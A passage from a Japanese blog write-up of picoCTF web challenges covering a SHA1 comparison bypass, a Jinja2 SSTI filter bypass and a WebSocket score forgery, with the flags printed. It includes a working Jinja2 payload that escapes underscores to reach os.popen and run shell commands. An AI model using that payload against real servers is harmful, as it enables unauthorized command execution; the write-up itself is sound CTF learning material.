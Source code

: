 >なんか似たようなのやったな
https://qiita.com/Taka-C/items/780f1d7f2307e0ddf4ae

今回はSHA1の衝突ということで0e数字を作るのは難しい。
そこで、もう一つ配列として渡してあげることで＝＝をかいくぐる方法があるらしい。

ということでBurpSuiteを起動してログインしてみる。
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/3810599/e66169c5-6f13-467b-b454-defa75efeede.png)

フラグゲット
> picoCTF{w3Ll_d3sErV3d_Ch4mp_76d46a4d}

## pachinko
> History has failed us, but no matter.
Server source
There are two flags in this challenge. Submit flag one here, and flag two in Pachinko Revisited.
Website


![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/3810599/2cf113d3-b69b-4a6e-bed0-f6fd32535dfd.png)

## SSTI2
> I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)
I heard templating is a cool and modular way to build web apps! Check out my website here!

SSTI1と同じように{{request....}}を入れると怒られた...
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/3810599/b2c2a4e9-29c9-4960-ad04-f61ea8e84a5e.png)
サニタイズもされてそう。
調べてみる。
attr('')とか\x5fとかで回避するらしい。

https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```
フラグゲット
> picoCTF{sst1_f1lt3r_byp4ss_8b534b82}

## WebSockFish
>Can you win in a convincing manner against this chess bot? He won't go easy on you!
You can find the challenge here.

アクセスしてみると、チェスボードがある。
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/3810599/94ca6930-6bbb-42d2-bc14-906d6c2d8233.png)
あと、WebSocketを使って盤面の具合を送って魚のワードを決めてそう。

コンソールから、
```js
ws.send("eval -10000000000000000000000")
```
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/3810599/7613e44d-ba56-4d6d-a40d-a82a2c8fbebd.png)

と相手がめっちゃ負けてることにするとフラグゲット
> picoCTF{c1i3nt_s1d3_w3b_s0ck3t5_e5e75e69}
